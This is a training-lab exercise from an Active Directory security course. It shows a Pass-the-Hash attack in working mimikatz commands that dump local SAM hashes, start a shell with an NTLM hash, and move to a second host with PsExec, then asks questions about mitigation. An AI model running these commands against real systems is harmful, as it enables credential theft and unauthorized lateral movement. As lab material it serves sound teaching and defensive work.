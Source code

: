 # Exercise 2 - NTLM (Pass-the-Hash)

## Tools

You can find all tools needed in the ["attacker-tools.zip"-file](../exercises/attacker-tools). The links below are for your own reference.

Tools needed:

- Mimikatz: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
- PSExec: [http://live.sysinternals.com/](https://github.com/gentilkiwi/mimikatz)

## Exercise

In this exercise, we'll execute a Pass-the-Hash attack through the local Administrator account. Remember (see Lab Setup Guide) that we set the same local admin password on adsec-00 as well as on adsec-01. Therefore the NTLM hashes are the same on both computers.

Open a command prompt with admin rights (right-click "Run as Administrator") and start mimikatz.

```
cd C:\attacker-tools
.\mimikatz_trunk\x64\mimikatz.exe
```

Run the following commands inside mimikatz to extract the password hashes of the **local** user accounts.

```
privilege::debug
token::elevate
lsadump::sam
```

Next, we use the PTH-function in mimikatz to start a shell with the hash of the local admin account (RID 500).

```
sekurlsa::pth /user:Administrator /ntlm:7dfa0531d73101ca080c7379a9bff1c7 /domain:doesnotmatter
```

Finally, connect to adsec-01 using psexec.

```
cd C:\attacker-tools
.\PsExec64.exe \\adsec-01 cmd
```

Make sure everything worked as expected

```
whoami
hostname
```

## Questions

- What is the purpose of the mimikatz commands "privilege::debug" and "token::elevate"? Why do you need to execute them?
- Log on to adsec-01 as Bruce Lee. Use what you learned above and help john to remotely extract Bruce Lees NTLM hash from memory. `Note:` "lsadump::sam" only dumps the local password database. You need to use a different command to extract data from memory.
- Do research on the internet on how to best mitigate pass-the-hash attacks. Describe the mitigation techniques that you think are the best and explain why you chose them.
- Is it possible (and feasible) to just disable NTLM at all? Explain your reasoning.